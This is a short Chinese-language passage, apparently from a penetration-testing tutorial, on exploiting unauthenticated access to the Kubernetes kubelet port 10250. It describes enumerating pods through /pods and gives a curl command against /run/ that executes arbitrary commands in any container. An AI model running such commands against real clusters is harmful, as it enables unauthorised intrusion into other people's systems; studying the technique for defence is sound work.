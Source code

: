 
如果10250端口存在未授权访问漏洞，那么我们可以先使用/pods接口获取集群的详细信息，如namespace，pods，containers等

![](assets/1700701621-5ee5fff6db3aab4a1e75206d71bf8ba5.png)

之后再通过  
curl -k [https://Kubernetes-node-ip:10250/run/](https://kubernetes-node-ip:10250/run/)// -d “cmd=id” 的方式在任意容器里执行命令
